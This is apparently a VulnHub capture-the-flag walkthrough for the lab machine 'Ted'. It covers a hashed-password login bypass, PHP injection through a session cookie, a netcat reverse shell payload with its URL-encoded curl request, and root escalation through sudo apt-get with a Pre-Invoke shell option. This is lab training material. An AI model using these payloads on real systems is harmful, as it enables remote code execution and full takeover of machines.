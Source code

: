 
Ted
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

[+] Command injection in cookie
[+] PHP reverse shell
[+] Privilege Escalation by abusing SUDO rights =  apt-get update
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Scan results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-02 03:46 EDT
Nmap scan report for 192.168.56.103
Host is up (0.00038s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
MAC Address: 08:00:27:EB:0A:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 192.168.56.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Only port 80 open
Browsing to port 80 :  http://192.168.56.103
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted-01.png)

There's a login page
Trying admin : admin as username and password credentials we get a error stating:
<p>Password hash is not correct, make sure to hash it before submit.</p>
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted02.png)


We try to encode it with different types of hashed: MD5, SHA1, SHA256. This later one worked submitting a SHA256 hash of admin, instead of the password
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted03.png)
admin : 8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918

Using this credentials we are able to login to the application.
The admin panel has just a Search button for retrieving files from the server.

We are unable to retrieve the restricted files, but we have access to /var/lib/php/sessions/

We retrieve the file containing information about the current session of the user admin
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted04.png)


We try to manipulate the user_pref parameter in the cookie.
We insert a small php file that executes ifconfig to test code execution.
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted05.png)


Reverse shell

Sending the following php : <?php system("nc 192.168.56.102 1234 -e /bin/bash")?> 
Encoded in URL format : %3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%31%39%32%2e%31%36%38%2e%35%36%2e%31%30%32%20%31%32%33%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%22%29%3f%3e

We resubmit the request

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.56.103' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64;$
    -b $'PHPSESSID=4lnshplsfqb65oe3ihtnhqiqs0; user_pref=%3c%3f%70%68%70%20%73%$
    --data-binary $'search=%2Fvar%2Flib%2Fphp%2Fsessions%2Fsess_4lnshplsfqb65oe$
    $'http://192.168.56.103/home.php'

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Started listener on Kali at port 1234.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Upon making the request we get a reverse shell on kali linux
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted06.png)

Getting root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 35310
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@ubuntu:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ubuntu:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on ubuntu:
     (root) NOPASSWD: /usr/bin/apt-get
 www-data@ubuntu:/var/www/html$sudo apt-get update -o APT::Update::Pre-Invoke::= "/bin/bash -i"
 root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


